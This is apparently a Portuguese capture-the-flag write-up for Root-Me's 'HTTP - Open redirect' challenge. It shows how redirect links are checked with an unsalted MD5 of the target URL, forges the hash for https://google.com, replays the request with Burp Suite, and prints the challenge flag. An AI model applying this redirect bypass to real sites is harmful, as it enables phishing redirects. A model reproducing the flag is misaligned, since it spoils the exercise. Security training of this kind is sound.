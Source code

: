 ## HTTP - Open redirect 

Checando o código fonte, inspecionando elemento ou copiando o link, encontramos:

  - https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134

  - https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0

  - https://slack.com&h=e52dc719664ead63be3d5066c135b6da

A validação é feita por meio de hash MD5:

<pre>root@kali:~# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))</pre>

É possível capturar a requisição com [Burp Suit](https://portswigger.net/burp) ou com a extensão [HTTP Header Live](https://addons.mozilla.org/pt-BR/firefox/addon/http-header-live/) de firefox, edita-la e fazer o reenvio:

Podemos gerar o hash md5 de https://google.com, enviar e olhar a resposta da requisição com Burp Suit:

<pre>root@kali:~# python2.7
Python 2.7.17 (default, Oct 19 2019, 23:36:22)
[GCC 9.2.1 20191008] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import md5
>>> md5.new('https://google.com').digest().encode('hex')
'99999ebcfdb78df077ad2727fd00969f'</pre>

## Resposta

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Thu, 30 Jan 2020 20:03:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1027

<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5</p><script>document.location = 'https://google.com';</script></pre>
